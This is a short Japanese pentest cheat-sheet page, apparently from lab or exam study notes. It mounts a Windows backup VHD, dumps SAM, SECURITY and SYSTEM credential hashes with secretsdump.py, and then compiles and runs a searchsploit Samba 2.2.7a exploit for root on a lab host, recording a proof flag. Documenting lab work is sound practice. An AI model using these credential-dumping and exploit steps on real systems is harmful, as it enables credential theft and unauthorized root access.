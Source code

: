 

### vhd(仮想サーバーのファイル)のmount

guestmountツールをダウンロードする

```bash
sudo apt install libguestfs-tools
```

事前にmountしておいたvhdファイルを別ディレクトリにマウントする

```bash
mkdir /mnt2/
chmod 777 /mnt2/
guestmount --add /mnt/WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt2/
```

![image-20230502000536857](img/smb(139,445)/image-20230502000536857.png)

`C:\Windows\System32\config`にある認証ファイルをクラックする

```
cd /mnt2/Windows/System32/config
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

[メモリダンプ](./../ActiveDirectory/ActiveDirectory_auth.md/#SAMの取得（reg save)

## Exploit

unix.samba 2.2.7a

特に特殊なことはせず、コンパイルして実行するだけでうまくexploitできる。しかもrootで。

```bash
searchsploit samba 2.2 | grep -v windows | grep -v Overflow
```

![image-20230214231425349](img/NetBIOS(139)/image-20230214231425349.png)

```
searchsploit -p 10
```

```
gcc -static 10.c -o sambal
```

```
./sambal -d 0 -C 60 -S 10.11.1.115
```

```
cat proof.txt
377bbe9add593ba528fd9bd3104d2f25
```
